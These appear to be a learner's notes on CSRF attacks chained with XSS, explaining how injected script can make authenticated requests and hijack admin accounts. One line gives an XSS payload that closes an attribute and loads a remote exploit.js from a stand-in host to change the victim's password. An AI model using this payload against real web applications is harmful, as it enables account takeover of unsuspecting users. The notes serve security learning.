 
- similar in name to the xss cross stite scripting

  

![[Screenshot_from_2023-09-05_02-43-50.png]]

- utilize `XSS` vulnerabilities to perform certain queries, and `API` calls on a web application that the victim is currently authenticated to.
    
    ![[Screenshot_from_2023-09-05_02-50-14.png]]
    

  

  

![[Screenshot_from_2023-09-05_02-58-01.png]]

  

`CSRF` can also be leveraged to attack admins and gain  
access to their accounts. Admins usually have access to sensitive  
functions, which can sometimes be used to attack and gain control over  
the back-end server (depending on the functionality provided to admins  
within a given web application). Following this example, instead of  
using `JavaScript` code that would return the session cookie, we would load a remote `.js` (`JavaScript`) file, as follows:

Code: html

```
"><script src=//www.example.com/exploit.js></script>
```

The `exploit.js` file would contain the malicious `JavaScript` code that changes the user's password. Developing the `exploit.js` in this case requires knowledge of this web application's password changing procedure and `APIs`. The attacker would need to create `JavaScript` code that would replicate the desired functionality and automatically carry it out (i.e., `JavaScript` code that changes our password for this specific web application).